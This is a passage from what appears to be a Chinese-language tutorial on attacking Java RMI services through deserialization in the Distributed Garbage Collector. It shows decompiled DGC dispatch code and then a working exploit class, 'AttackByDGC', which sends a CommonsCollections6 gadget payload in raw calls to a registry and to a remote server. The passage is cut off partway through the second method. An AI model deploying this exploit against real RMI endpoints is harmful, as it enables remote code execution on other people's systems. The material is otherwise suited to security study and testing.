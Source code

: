 ```java
                }
            case 1:
                Lease var10;
                try {
                    ObjectInput var11 = var2.getInputStream();
                    var7 = (ObjID[])((ObjID[])var11.readObject());
                    var8 = var11.readLong();
                    var10 = (Lease)var11.readObject();
                } catch (IOException var32) {
                    throw new UnmarshalException("error unmarshalling arguments", var32);
                } catch (ClassNotFoundException var33) {
                    throw new UnmarshalException("error unmarshalling arguments", var33);
                } finally {
                    var2.releaseInputStream();
                }

                Lease var40 = var6.dirty(var7, var8, var10);

                try {
                    ObjectOutput var12 = var2.getResultStream(true);
                    var12.writeObject(var40);
                    break;
                } catch (IOException var31) {
                    throw new MarshalException("error marshalling return", var31);
                }
            default:
                throw new UnmarshalException("invalid method number");
            }

        }
    }
}
```

可以看到不论是调用远程的什么方法，都会涉及到返回结果的反序列化。

```java
package com.dem0.vuln;

import com.dem0.internal.ReflectUtils;
import de.qtc.rmg.networking.RMIRegistryEndpoint;
import de.qtc.rmg.utils.RemoteObjectWrapper;

import java.rmi.server.ObjID;

import static com.dem0.rmi.Main.sendRawCall;

public class AttackByDGC {
    public static void  attackRegister() throws Exception {
        String registryHost = "127.0.0.1";
        int registryPort = 1099;
        final Object payloadObject = new CC6().getPayload();
        ObjID objID = new ObjID(2);
        sendRawCall(registryHost, registryPort,  objID, 0, -669196253586618813L,payloadObject);
    }
    public static void attackServer() throws Exception {

        ReflectUtils.enableCustomRMIClassLoader();
        RMIRegistryEndpoint rmiRegistry = new RMIRegistryEndpoint("192.168.111.1",1099);
        RemoteObjectWrapper remoteObj = new RemoteObjectWrapper(rmiRegistry.lookup("math"),"math");
        Object payloadObject = new CC6().getPayload();
        ObjID objID = new ObjID(2);
        sendRawCall(remoteObj.getHost(), remoteObj.getPort(),  objID, 0, -669196253586618813L,payloadObject);
```